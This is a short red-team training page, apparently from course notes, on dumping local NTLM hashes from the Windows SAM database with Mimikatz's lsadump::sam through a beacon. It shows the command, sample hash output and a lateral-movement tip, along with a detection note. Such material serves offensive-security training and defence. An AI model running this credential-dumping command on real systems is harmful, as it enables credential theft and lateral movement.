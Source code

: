 ## Security Account Manager (SAM)

The Security Account Manager (<mark style="color:yellow;">SAM</mark>) <mark style="color:yellow;">database holds the NTLM hashes of local accounts only</mark>.

These can be dumped via the `lsadump::sam` Mimikatz module.&#x20;

<mark style="color:yellow;">If a common local administrator account is being used with the same password across an environment, this can make it very trivial to move laterally</mark>.

{% hint style="warning" %}
This command requires ELEVATED privileges.
{% endhint %}

```
beacon> mimikatz !lsadump::sam
	
Domain : WKSTN-2
SysKey : b9dc7de8b1972237bbbd7f82d970f79a
Local SID : S-1-5-21-2281971671-4135076198-2136761646

SAMKey : b0664279732686cfbb4b788c078fea82

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: fc525c9683e8fe067095ba2ddc971889
    lm  - 0: 91b6e660bcac036ae7ab67a3d383bc82
    ntlm- 0: fc525c9683e8fe067095ba2ddc971889
```

{% hint style="info" %}
OPSEC

This module will open a handle to the SAM Registry hive.&#x20;

You can use the "Suspicial SAM Hive Handle" saved search in Kabana to see them.
{% endhint %}

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
